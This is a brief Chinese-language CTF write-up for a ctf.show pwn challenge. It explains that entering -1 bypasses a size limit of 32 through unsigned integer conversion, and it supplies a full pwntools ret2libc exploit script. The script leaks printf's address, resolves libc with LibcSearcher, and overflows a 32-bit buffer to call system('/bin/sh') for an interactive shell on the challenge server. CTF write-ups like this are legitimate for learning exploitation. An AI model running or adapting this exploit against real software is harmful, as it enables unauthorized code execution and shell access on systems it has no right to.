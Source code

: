 # 挑战简介
类型转换

# 思路
ret2libc 的基础题，不过加了些整形转换  

<img width="479" height="213" alt="image" src="https://github.com/user-attachments/assets/f610148c-3e51-4953-a739-9545e0dc53dd" />

检测中的需求数字大小不能大于32，所以你填入-1，由于无符号，所以直接就越过了标准大小32  

<img width="432" height="41" alt="image" src="https://github.com/user-attachments/assets/83716b1f-e8a2-4322-a314-c10833aafa42" />

后面就是简单的ret2libc了  

```
#!/usr/bin/python3
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28302)

elf = ELF('./pwn')

main = elf.symbols['main']

printf_got = elf.got['printf']
printf_plt = elf.plt['printf']

io.recvuntil('read?')

io.sendline('-1')

io.recvuntil('\n')

payload = b'a' * (0x2c + 0x4) + p32(printf_plt) + p32(main) + p32(printf_got)

io.sendline(payload)
io.recvuntil('\n')

printf_ = u32(io.recv(4))
print(hex(printf_))

libc = LibcSearcher('printf', printf_)

libc_base = printf_ - libc.dump('printf')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')


io.recvuntil('read?')
io.sendline('-1')
io.recvuntil('\n')

payload = b'a' * (0x2c + 0x4) + p32(system) + p32(main) + p32(bin_sh)

io.sendline(payload)

io.interactive()
```

